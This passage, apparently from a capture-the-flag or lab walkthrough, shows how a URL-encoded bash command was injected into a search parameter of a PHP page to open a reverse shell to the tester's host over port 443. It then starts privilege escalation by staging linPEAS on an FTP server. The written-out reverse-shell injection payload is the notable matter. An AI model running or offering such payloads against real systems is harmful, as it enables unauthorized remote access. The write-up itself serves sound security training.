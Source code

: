 encoded a bash script through url encoder because bosquet saw it as string. and after pasting the encoded url - i got shell through 443 port 
<img src="Assets/image22.png" width="1000">
<img src="Assets/image23.png" width="1000">

192.168.0.119/site/busque.php?buscar=%2Fbin%2Fbash -c 'bash -i >%26 %2Fdev%2Ftcp%2F192.168.0.108%2F443 0>%261'

## Privilege escalation

Put the linpeas.sh script on ftp server
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS